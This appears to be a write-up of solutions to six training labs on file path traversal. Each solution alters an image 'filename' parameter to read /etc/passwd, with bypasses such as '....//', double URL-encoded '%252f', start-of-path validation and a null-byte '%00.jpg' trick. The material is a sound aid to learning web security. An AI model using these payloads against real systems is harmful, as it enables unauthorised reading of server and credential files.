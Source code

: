 ## APPRENTICE
###### Lab: File Path Traversal, Simple Case

*This lab contains a file path traversal vulnerability in the display of product images. To complete the lab, I needed to retrieve the contents of the "/etc/passwd" file.*

**Solution:**
1. Click on any image and observe the parameter. When a user clicks on any image, the parameter looks like "filename=31.jpg".
2. Now, attempt to access the "/etc/passwd" file by modifying the parameter to "../../etc/passwd".
3. ```<URL>?filename=../../etc/passwd```
        Congratulations, you solved the lab!

## PRACTITIONER
###### Lab: File path traversal, traversal sequences blocked with absolute path bypass

*This lab contains a file path traversal vulnerability in the display of product images. The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory. To solve the lab, retrieve the contents of the `/etc/passwd` file.*

**Solution:**
1. Click on any image and observe the parameter. When a user clicks on any image, the parameter looks like "filename=22.jpg".
2. Now, attempt to access the "/etc/passwd" file by modifying the parameter to "/etc/passwd".
3. ```<URL>?filename=/etc/passwd```
        Congratulations, you solved the lab!

## PRACTITIONER
###### Lab: File path traversal, traversal sequences stripped non-recursively

*This lab contains a file path traversal vulnerability in the display of product images. The application strips path traversal sequences from the user-supplied filename before using it. To solve the lab, retrieve the contents of the `/etc/passwd` file.*

**Solution:**
1. Click on any image and observe the parameter. When a user clicks on any image, the parameter looks like "filename=22.jpg".
2. Now, attempt to access the "/etc/passwd" file by modifying the parameter to "....//....//....//etc/passwd".
3. ```<URL>?filename=....//....//....//etc/passwd```
        Congratulations, you solved the lab!

## PRACTITIONER
###### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

*This lab contains a file path traversal vulnerability in the display of product images.The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.To solve the lab, retrieve the contents of the `/etc/passwd` file.*

**Solution:**
1. Click on any image and observe the parameter. When a user clicks on any image, the parameter looks like "filename=22.jpg".
2. Now, attempt to access the "/etc/passwd" file by modifying the parameter to "..%252f..%252f..%252fetc%252fpasswd".
3. ```?filename=..%252f..%252f..%252fetc%252fpasswd```
        Congratulations, you solved the lab!

## PRACTITIONER
###### Lab: File path traversal, validation of start of path

*This lab contains a file path traversal vulnerability in the display of product images.The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder. To solve the lab, retrieve the contents of the `/etc/passwd` file.*

**Solution:**
1. Click on any image and observe the parameter. When a user clicks on any image, the parameter looks like "filename=22.jpg".
2. Now, attempt to access the "/etc/passwd" file by modifying the parameter to "/var/www/images/../../../etc/passwd".
3. ```?filename=/var/www/images/../../../etc/passwd```
        Congratulations, you solved the lab!

## PRACTITIONER
###### Lab: File path traversal, validation of file extension with null byte bypass

*This lab contains a file path traversal vulnerability in the display of product images. The application validates that the supplied filename ends with the expected file extension. To solve the lab, retrieve the contents of the `/etc/passwd` file.*

**Solution:**
1. Click on any image and observe the parameter. When a user clicks on any image, the parameter looks like "filename=22.jpg".
2. Now, attempt to access the "/etc/passwd" file by modifying the parameter to "../../../etc/passwd%00.jpg".
3. ```?filename=../../../etc/passwd%00.jpg```
        Congratulations, you solved the lab!



